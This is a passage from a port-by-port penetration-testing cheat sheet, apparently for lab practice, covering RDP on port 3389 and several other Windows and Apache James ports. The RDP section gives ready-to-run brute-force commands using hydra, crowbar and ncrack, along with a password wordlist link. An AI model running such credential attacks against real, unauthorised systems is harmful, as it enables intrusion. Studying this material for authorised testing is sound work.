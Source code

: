## Port 3389 - Remote Desktop Protocol
* Login with rdesktop or xfreerdp 
```rdp
rdesktop -u guest -p guest 10.11.1.5 -g 80%
xfreerdp /v:(target) /u:(user) /p:(password)
```
* Brute force 
```bf
rdesktop 192.168.1.101 //check version and sometimes username

hydra -V -f -L user.txt -P /dp_passlist.txt rdp://10.11.1.7

crowbar -b rdp -s 10.11.1.7/32 -u root -C rdp_passlist.txt -n 1

ncrack -vv -u Administrator -P /root/passwords.txt rdp://192.168.1.101
ncrack -vv -u Administrator -P /root/passwords.txt -p 3389 192.168.1.101
```
* [RDP Wordlist](https://raw.githubusercontent.com/jeanphorn/wordlist/master/rdp_passlist.txt)
* msfconsole for ms12-020 is a dos attack; cant use


### MS12-020
This is categorized by microsoft as a RCE vulnerability. But there is no POC for it online. You can only DOS a machine using this exploit.

[Back](#summary)

## Port 4445 - Upnotifyp
Not much found anything here. Try connecting with netcat and visiting in browser.

[Back](#summary)

## Port 4555 - RSIP
This port has been used by Apache James Remote Configuration.
There is an exploit for [version 2.3.2](https://www.exploit-db.com/docs/40123.pdf)

[Back](#summary)

## Port 47001 - Windows Remote Management Service
Windows Remote Management Service

[Back](#summary)

## Port 5357 - WSDAPI

[Back](#summary)

## Port 5722 - DFSR
* The Distributed File System Replication (DFSR) service is a state-based, multi-master file replication engine that automatically copies updates to files and folders between computers that are participating in a common replication group. DFSR was added in Windows Server 2003 R2.
* I am not sure how what can be done with this port. But if it is open it is a sign that the machine in question might be a Domain Controller.
